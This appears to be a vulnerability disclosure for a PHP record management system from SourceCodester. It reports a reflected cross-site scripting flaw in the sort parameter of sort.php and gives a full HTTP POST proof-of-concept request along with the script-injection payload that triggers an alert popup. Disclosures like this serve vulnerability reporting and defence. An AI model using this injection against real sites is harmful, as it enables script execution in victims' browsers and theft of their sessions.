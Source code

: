 ### VUL_AUTHOR:netmanzhang
# Record management system – reflected XSS on (sort.php sort parameter) 
## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 
## Version:V1.0
## Tested on: PHP, Apache, MySQL
## Affected Page:
sort.php 

On this page, sort parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
### Request:
```
POST http://localhost/Personnel_record_management_system/sort.php HTTP/1.1
Host: localhost
Content-Length: 37
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost/Personnel_record_management_system/sort1.php
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Connection: close

sort=Sort+Personnel+by+School"><script>alert(1)</script>&filter=
```
## Payload：
```
"><script>alert(1)</script>
 ```
<img width="416" alt="image" src="https://github.com/user-attachments/assets/14d70a1a-a35d-4dbf-8302-d1910609afdc">

## Trigger popup：
<img width="416" alt="image" src="https://github.com/user-attachments/assets/5af54e8b-2842-4af0-adee-437b27204d08">


